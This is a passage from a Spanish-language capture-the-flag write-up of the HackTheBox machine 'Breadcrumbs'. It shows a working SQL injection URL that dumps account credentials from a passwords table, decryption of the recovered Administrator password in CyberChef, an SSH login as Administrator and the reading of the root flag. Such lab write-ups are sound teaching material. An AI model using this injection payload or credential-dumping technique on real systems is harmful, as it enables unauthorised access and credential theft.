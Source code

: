 Dumpeo los datos

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator%27union%20select%20group_concat(account,%27:%27,password)%20from%20bread.passwords--%20-&table=passwords
string(58) "Administrator:H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="
```

Introduzco los datos que ya tengo en CyberChef, pero espera una cadena de más longitud. Si el IV lo relleno con null bytes, obtengo la contraseña en texto claro

<img src="/writeups/assets/img/Breadcrumbs-htb/40.png" alt="">

Me puedo conectar a la máquina como el usuario Administrador

```null
ssh Administrator@10.10.10.228

Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

administrator@BREADCRUMBS C:\Users\Administrator>whoami
breadcrumbs\administrator
```

Y puedo ver la segunda flag

```null
administrator@BREADCRUMBS C:\Users\Administrator\Desktop>type root.txt
cce6b1013898d28f1ef445eb51620e49
```